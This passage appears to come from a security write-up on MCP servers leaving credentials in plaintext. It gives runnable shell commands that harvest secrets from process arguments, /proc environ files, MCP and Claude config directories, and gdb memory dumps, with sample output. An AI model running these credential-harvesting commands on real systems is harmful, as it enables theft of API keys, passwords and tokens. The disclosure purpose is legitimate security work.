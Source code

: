 ```yaml
  - Certificate paths: "/etc/pki/tls/private/wildcard.key"
```

**All stored in plaintext in process arguments or config files, all accessible to the same user.**

## Trivial Credential Harvesting Techniques

### 1. Process Argument Scanning
```bash
# 10 seconds to dump all credentials
ps aux | grep -E '(password|token|key|secret|://)' 

# Real example output:
alice 1234 python mcp-db.py postgresql://admin:Pr0d@123@db.internal/customers
alice 1235 node mcp-stripe.js --api-key=sk_live_4242424242424242
alice 1236 mcp-aws --secret-key=wJalrXUtnFEMI/K7MDENG/bPxRfiCY
```

### 2. Environment Variable Harvesting
```bash
# Iterate through all MCP processes
for pid in $(pgrep -u $USER mcp); do
    echo "=== Process $pid ==="
    cat /proc/$pid/environ | tr '\0' '\n' | grep -E '(TOKEN|KEY|PASS|SECRET)'
done

# Instant access to:
# - API tokens
# - OAuth secrets  
# - Service passwords
# - Encryption keys
```

### 3. Configuration File Raiding
```bash
# MCP servers often read configs
find ~ -name "*mcp*.json" -o -name "*mcp*.yaml" 2>/dev/null | \
while read config; do
    grep -E '(password|token|key|secret)' "$config"
done

# Also check:
~/.config/claude/
~/.mcp/
~/.*rc files
```

### 4. Memory Scraping
```bash
# No root needed - same user can access memory
gdb -p $(pgrep mcp-database) -batch \
    -ex "dump memory /tmp/mcp.dump 0x0 0xffffffff" \
    -ex "quit"

strings /tmp/mcp.dump | grep -A2 -B2 "password"
```
